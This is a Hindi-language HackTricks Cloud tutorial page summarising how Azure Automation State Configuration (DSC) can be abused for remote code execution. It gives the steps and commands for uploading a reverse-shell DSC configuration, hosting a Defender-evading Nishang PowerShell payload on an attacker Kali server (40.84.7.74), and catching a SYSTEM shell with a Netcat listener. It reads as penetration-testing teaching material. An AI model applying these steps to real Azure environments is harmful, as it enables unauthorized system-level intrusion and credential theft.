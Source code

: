 # Az - राज्य कॉन्फ़िगरेशन RCE

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

**पूरी पोस्ट देखें: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### दूरस्थ सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी और चरणों का सारांश

#### अवलोकन
इस प्रक्रिया में एक दूरस्थ सर्वर इंफ्रास्ट्रक्चर को सेटअप करने की शामिल है जो एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड को होस्ट करता है, जिसे `RevPS.ps1` नाम से जाना जाता है और विंडोज डिफेंडर को छलने के लिए डिज़ाइन किया गया है। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक सरल Python HTTP सर्वर से प्रदान किया जाता है। ऑपरेशन कई चरणों में निष्पादित किया जाता है:

#### चरण 1 — फ़ाइलें बनाएं
- **आवश्यक फ़ाइलें:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक इच्छित स्थिति कॉन्फ़िगरेशन (DSC) फ़ाइल जो पेलोड को लाती है और निष्पादित करती है। यह [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) से प्राप्त की जा सकती है।
2. `push_reverse_shell_config.ps1`: एक स्क्रिप्ट कॉन्फ़िगरेशन को वीएम पर प्रकाशित करने के लिए, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) पर उपलब्ध है।
- **कस्टमाइज़ेशन:** इन फ़ाइलों में चरणों और पैरामीटर को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता समेत।

#### चरण 2 — कॉन्फ़िगरेशन फ़ाइल को ज़िप करें
- `reverse_shell_config.ps1` को `.zip` फ़ाइल में संकुचित किया जाता है, जिससे यह तैयार हो जाता है अज़्यूर स्टोरेज अकाउंट में स्थानांतरण के लिए।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### चरण 3 — संग्रह संदर्भ सेट करें और अपलोड करें
- ज़िप की गई कॉन्फ़िगरेशन फ़ाइल को Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके एक पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest में अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### चरण 4 — काली बॉक्स की तैयारी
- काली सर्वर एक GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- स्क्रिप्ट को संपादित किया गया है ताकि लक्षित Windows VM और पोर्ट को रिवर्स शैल के लिए निर्दिष्ट किया जा सके।

#### चरण 5 — विनिर्माण फ़ाइल प्रकाशित करें
- कॉन्फ़िगरेशन फ़ाइल को निष्पादित किया जाता है, जिससे रिवर्स-शैल स्क्रिप्ट को Windows VM पर निर्दिष्ट स्थान पर डिप्लॉय किया जाता है।

#### चरण 6 — पेलोड होस्ट और सेटअप सुनने वाला
- एक Python SimpleHTTPServer शुरू किया जाता है ताकि पेलोड होस्ट किया जा सके, साथ ही एक Netcat लिस्टनर भी सेटअप किया जाता है जिससे आने वाली कनेक्शन को कैप्चर किया जा सके।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- निर्धारित कार्य द्वारा पेलोड निष्पादित किया जाता है, सिस्टम स्तर की विशेषाधिकार प्राप्त किए जाते हैं।

#### निष्कर्ष

इस प्रक्रिया के सफल निष्पादन से आगे कई संभावनाएं खुलती हैं, जैसे क्रेडेंशियल डंपिंग या हमले को कई वीएम पर विस्तारित करना। गाइड आगे बढ़ने और आज़्यूर ऑटोमेशन डीएससी के क्षेत्र में सीखने और रचनात्मकता को प्रोत्साहित करता है।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में पीआर जमा करके।

</details>
{% endhint %}

